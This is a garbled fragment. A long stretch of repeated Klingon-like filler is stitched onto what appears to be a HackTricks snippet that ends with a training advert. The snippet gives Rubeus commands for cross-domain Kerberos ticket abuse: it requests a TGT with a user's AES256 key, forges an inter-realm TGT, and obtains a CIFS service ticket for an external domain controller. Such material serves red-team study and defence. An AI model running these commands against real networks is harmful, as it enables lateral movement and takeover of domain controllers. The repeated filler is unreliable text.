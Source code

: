 'e' vItlhutlh. QaH jImej 'e' vItlhutlh. QaH jImej 'e' vItlhutlh. QaH jImej 'e' vItlhutlh. QaH jImej 'e' vItlhutlh. QaH jImej 'e' vItlhutlh. QaH jImej 'e' vItlhutlh. QaH jImej 'e' vItlhutlh. QaH jImej 'e' vItlhutlh. QaH jImej 'e' vItlhutlh. QaH jImej 'e' vItlhutlh. QaH jImej 'e' vItlhutlh. QaH jImej 'e' vItlhutlh. QaH jImej 'e' vItlhutlh. QaH jImej 'e' vItlhutlh. QaH jImej 'e' vItlhutlh. QaH jImej 'e' vItlhutlh. QaH jImej 'e' vItlhutlh. QaH jImej 'e' vItlhutlh. QaH jImej 'e' vItlhutlh. QaH jImej 'e' vItlhutlh. QaH jImej 'e' vItlhutlh. QaH jImej 'e' vItlhutlh. QaH jImej 'e'
```bash
# Get a TGT of the user with cross-domain permissions
Rubeus.exe asktgt /user:crossuser /domain:sub.domain.local /aes256:70a673fa756d60241bd74ca64498701dbb0ef9c5fa3a93fe4918910691647d80 /opsec /nowrap

# Get a TGT from the current domain for the target domain for the user
Rubeus.exe asktgs /service:krbtgt/domain.external /domain:sub.domain.local /dc:dc.sub.domain.local /ticket:doIFdD[...snip...]MuSU8= /nowrap

# Use this inter-realm TGT to request a TGS in the target domain to access the CIFS service of the DC
## We are asking to access CIFS of the external DC because in the enumeration we show the group was part of the local administrators group
Rubeus.exe asktgs /service:cifs/dc.doamin.external /domain:dc.domain.external /dc:dc.domain.external /ticket:doIFMT[...snip...]5BTA== /nowrap

# Now you have a TGS to access the CIFS service of the domain controller
```
<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
